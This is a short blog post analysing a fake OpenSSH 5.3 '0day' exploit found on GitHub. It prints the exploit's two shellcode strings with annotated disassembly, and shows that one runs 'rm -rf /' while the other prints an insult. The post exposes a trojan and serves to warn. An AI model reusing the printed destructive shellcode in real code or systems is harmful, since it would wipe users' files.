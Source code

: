 ```yaml
---
title: Analyze A Fake OpenSSH 5.3 0day Exploit
metaAlignment: center
coverMeta: out
thumbnailImagePosition: left
date: 2019-10-14 18:46:03
categories:
    - Research
thumbnailImage: cover.png
keywords:
    - OpenSSH
    - shellcode
    - 0day
    - exploit
tags:
    - Shellcode
---
```

A quick look of a fake 0day exploit :)
<!--more-->

Just a normal day of work, I'm searching for vulnerability about OpenSSH 5.3. Surprisingly, there is an RCE 0day exploit on [Github](https://github.com/r0otshell/OpenSSH-5.3-remote-root-0day-exploit-32-bit-x86-). I take a look at the exploit code before I compile it. Strangely, the exploit code is so simple especially the shellcode.

There are two shellcode in the exploit. I wrote some comments with assembly code.

decoder:
```shell
python -c 'print "\x6a\x0b\x58\x99\x52\x6a\x2f\x89\xe7\x52\x66\x68\x2d\x66\x89\xe6\x52\x66\x68\x2d\x72\x89\xe1\x52\x68\x2f\x2f\x72\x6d\x68\x2f\x62\x69\x6e\x89\xe3\x52\x57\x56\x51\x53\x89\xe1\xcd\x80"' > decoder.bin

objdump -D -b binary -M intel -m i386 decoder.bin
```

```
00000000 <.data>:
   0:	6a 0b                	push   0xb
   2:	58                   	pop    eax          // syscall: sys_execve
   3:	99                   	cdq
   4:	52                   	push   edx
   5:	6a 2f                	push   0x2f
   7:	89 e7                	mov    edi,esp
   9:	52                   	push   edx           
   a:	66 68 2d 66          	pushw  0x662d       // "-f"
   e:	89 e6                	mov    esi,esp
  10:	52                   	push   edx
  11:	66 68 2d 72          	pushw  0x722d       // "-r"
  15:	89 e1                	mov    ecx,esp
  17:	52                   	push   edx
  18:	68 2f 2f 72 6d       	push   0x6d722f2f   // "//rm"
  1d:	68 2f 62 69 6e       	push   0x6e69622f   // "/bin"
  22:	89 e3                	mov    ebx,esp
  24:	52                   	push   edx
  25:	57                   	push   edi
  26:	56                   	push   esi
  27:	51                   	push   ecx
  28:	53                   	push   ebx
  29:	89 e1                	mov    ecx,esp
  2b:	cd 80                	int    0x80         // syscall
  2d:	0a                   	.byte 0xa
```

rootshell:
```shell
python -c 'print "\x31\xd2\xb2\x0a\xb9\x6f\x75\x21\x0a\x51\xb9\x63\x6b\x20\x79\x51\x66\xb9\x66\x75\x66\x51\x31\xc9\x89\xe1\x31\xdb\xb3\x01\x31\xc0\xb0\x04\xcd\x80\x31\xc0\x31\xdb\x40\xcd\x80"' > rootshell.bin

objdump -D -b binary -M intel -m i386  rootshell.bin
```

```
00000000 <.data>:
   0:	31 d2                	xor    edx,edx
   2:	b2 0a                	mov    dl,0xa
   4:	b9 6f 75 21 0a       	mov    ecx,0xa21756f    // "ou!"
   9:	51                   	push   ecx
   a:	b9 63 6b 20 79       	mov    ecx,0x79206b63   // "ck y"
   f:	51                   	push   ecx
  10:	66 b9 66 75          	mov    cx,0x7566        // "fu"
  14:	66 51                	push   cx
  16:	31 c9                	xor    ecx,ecx
  18:	89 e1                	mov    ecx,esp
  1a:	31 db                	xor    ebx,ebx
  1c:	b3 01                	mov    bl,0x1           // sys_write ebx: fd = 1
  1e:	31 c0                	xor    eax,eax
  20:	b0 04                	mov    al,0x4           // syscall: sys_write
  22:	cd 80                	int    0x80             // syscall
  24:	31 c0                	xor    eax,eax
  26:	31 db                	xor    ebx,ebx
  28:	40                   	inc    eax              // syscall: sys_exit
  29:	cd 80                	int    0x80             // syscall
  2b:	0a                   	.byte 0xa
```

That's all. A fake 0day exploit.

After some searching, I found an older post from [pastbin](https://pastebin.com/WgXrebLq) and another people's analysis [blog](https://tomasuh.github.io/2015/10/25/SLAE-Malicious.html). Also, there was already an issue on GitHub reference to the same blog. It seems like I'm too involved in the research without searching for some related information first :)

All in all, it is a short relaxing moment on Monday's working hours. Use the exploit before you read it and understanding it.

BTW, no RCE exploit TAT.